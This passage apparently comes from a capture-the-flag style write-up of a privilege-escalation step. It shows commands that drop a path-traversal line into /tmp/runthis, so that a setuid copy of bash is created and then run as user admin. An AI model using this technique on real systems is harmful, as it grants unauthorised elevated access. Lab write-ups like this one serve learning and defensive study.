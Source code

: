 2\. We find another interesting file at `/home/eezeepz/notes.txt` which hints at a possible privesc method:  
``` {.python .numberLines}
cd /home/eezeepz
cat notes.txt

```

![writeup.privesc.steps.2.1](./screenshot07.png)  

3\. As suggested in the notes file, we create a file `/tmp/runthis` to execute a command starting with `/usr/bin` followed by directory traversal strings to copy the `bash` shell into `/tmp` directory and setuid on it. Since these commadns are executed within the scope of user `admin`, wehn we run the `/tmp/bash` file, we get a shell as user `admin`:  
``` {.python .numberLines}
echo -e "/usr/bin/../../bin/cp /bin/bash /tmp/bash; chmod u+s /tmp/bash" >/tmp/runthis
/tmp/bash -p

```

